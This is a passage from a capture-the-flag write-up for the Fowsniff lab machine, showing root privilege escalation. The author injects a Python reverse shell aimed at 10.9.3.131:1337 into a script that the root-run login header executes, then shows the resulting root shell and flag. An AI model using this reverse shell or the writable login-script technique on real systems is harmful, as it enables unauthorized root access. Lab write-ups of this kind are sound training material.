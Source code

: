 ```bash
#printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"

sh /opt/cube/cube.sh
```
{: .nolineno }

Here, I noted that `00-header` is run by root and it executes `/opt/cube/cube.sh`. If you the add a reverse shell in the `cube.sh` file, it will run as root and we will get a reverse shell as root if we re-login. In my case, I used the following reverse shell.


```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.3.131",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
{: .nolineno }


```bash
baksteen@fowsniff:/opt/cube$ nano cube.sh
baksteen@fowsniff:/opt/cube$ cat /opt/cube/cube.sh

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.3.131",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
baksteen@fowsniff:/opt/cube$ 
```
{: .nolineno }

Start a nc listener in a different tab and log in again. This time round, you get a shell as user root:

```bash
➜  nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.9.3.131] from (UNKNOWN) [10.10.92.38] 38686
root@fowsniff:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@fowsniff:/# pwd
pwd
/
root@fowsniff:/# cd /root
cd /root
root@fowsniff:/root# ls -la
ls -la
total 28
drwx------  4 root root 4096 Mar  9  2018 .
drwxr-xr-x 22 root root 4096 Mar  9  2018 ..
-rw-r--r--  1 root root 3117 Mar  9  2018 .bashrc
drwxr-xr-x  2 root root 4096 Mar  9  2018 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  5 root root 4096 Mar  9  2018 Maildir
-rw-r--r--  1 root root  582 Mar  9  2018 flag.txt
root@fowsniff:/root# cat flag.txt
cat flag.txt
   ___                        _        _      _   _             _
  / __|___ _ _  __ _ _ _ __ _| |_ _  _| |__ _| |_(_)___ _ _  __| |
 | (__/ _ \ ' \/ _` | '_/ _` |  _| || | / _` |  _| / _ \ ' \(_-<_|
  \___\___/_||_\__, |_| \__,_|\__|\_,_|_\__,_|\__|_\___/_||_/__(_)
               |___/

 (_)
  |--------------
  |&&&&&&&&&&&&&&|
```